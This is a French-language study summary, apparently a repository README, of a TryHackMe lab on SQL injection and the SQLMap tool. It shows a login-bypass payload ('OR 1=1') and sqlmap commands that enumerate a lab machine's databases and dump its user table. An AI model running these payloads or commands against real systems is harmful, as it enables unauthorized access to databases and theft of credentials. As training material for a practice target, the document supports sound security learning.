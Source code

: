 
# 🐍 SQLMap – Introduction aux Injections SQL

> Ce document est une synthèse du module *SQLMap: The Basics* de TryHackMe, rédigée en français. Il couvre les bases des injections SQL, l'utilisation de l'outil SQLMap et propose un exercice pratique.

---

## 🎯 Objectifs d'apprentissage

* Comprendre le concept d'injection SQL
* Apprendre à utiliser SQLMap pour automatiser les attaques
* Mettre en pratique les connaissances acquises sur une application vulnérable

---

## 🧠 Introduction aux Injections SQL

Une injection SQL est une technique d'attaque qui permet à un attaquant d'interférer avec les requêtes SQL que l'application envoie à sa base de données.

Par exemple, une requête classique de connexion pourrait ressembler à :

```sql
SELECT * FROM users WHERE username = 'John' AND password = 'Un@detectable444';
```

Un attaquant pourrait manipuler cette requête en entrant :

- **Nom d'utilisateur** : John
- **Mot de passe** : abc' OR 1=1;-- -

Ce qui transformerait la requête en :

```sql
SELECT * FROM users WHERE username = 'John' AND password = 'abc' OR 1=1;-- -';
```

L'opérateur `OR 1=1` est toujours vrai, permettant ainsi à l'attaquant d'accéder sans connaître le mot de passe réel.

---

## 🛠️ Utilisation de SQLMap

SQLMap est un outil en ligne de commande qui automatise le processus de détection et d'exploitation des vulnérabilités d'injection SQL.

### 🔍 Tester une URL vulnérable

Pour tester une URL, utilisez la commande suivante :

```bash
sqlmap -u "http://sqlmaptesting.thm/search?cat=1" --dbs
```

- `-u` : Spécifie l'URL cible
- `--dbs` : Enumère les bases de données disponibles

### 📋 Extraire des tables d'une base de données

Pour extraire les tables de la base de données `members` :

```bash
sqlmap -u "http://sqlmaptesting.thm/search?cat=1" -D members --tables
```

- `-D` : Spécifie la base de données cible
- `--tables` : Enumère les tables de la base de données

---

## 🧪 Exercice Pratique

1. Démarrer la machine virtuelle et accéder à la page de connexion à l'adresse :

   ```
   http://MACHINE_IP/ai/login
   ```

2. Soumettre des identifiants fictifs pour capturer la requête GET, par exemple :

   - **Email** : test
   - **Mot de passe** : test

3. Observer la requête GET résultante, qui devrait ressembler à :

   ```
   http://MACHINE_IP/ai/includes/user_login?email=test&password=test
   ```

4. Utiliser SQLMap pour tester la vulnérabilité :

   ```bash
   sqlmap -u "http://MACHINE_IP/ai/includes/user_login?email=test&password=test" --level=5
   ```

   - `--level=5` : Augmente la profondeur des tests effectués

5. Répondre aux invites de SQLMap :

   - Ignorer les tests pour d'autres SGBD : **y**
   - Inclure tous les tests spécifiques à MySQL : **y**
   - Tester d'autres paramètres si `email` est vulnérable : **n**

6. Une fois la vulnérabilité confirmée, utiliser les commandes suivantes pour explorer la base de données :

   - Lister les bases de données :

     ```bash
     sqlmap -u "http://MACHINE_IP/ai/includes/user_login?email=test&password=test" --dbs
     ```

   - Lister les tables de la base `ai` :

     ```bash
     sqlmap -u "http://MACHINE_IP/ai/includes/user_login?email=test&password=test" -D ai --tables
     ```

   - Extraire les données de la table `user` :

     ```bash
     sqlmap -u "http://MACHINE_IP/ai/includes/user_login?email=test&password=test" -D ai -T user --dump
     ```

---

## 🧠 Concepts Clés

* **Injection SQL** : Technique permettant d'exécuter des requêtes SQL malveillantes via des entrées utilisateur non sécurisées.
* **SQLMap** : Outil automatisé pour détecter et exploiter les vulnérabilités d'injection SQL.
* **Paramètres importants de SQLMap** :
  - `-u` : Spécifie l'URL cible.
  - `--dbs` : Enumère les bases de données.
  - `-D` : Spécifie la base de données cible.
  - `--tables` : Enumère les tables de la base de données.
  - `--dump` : Extrait les données des tables.
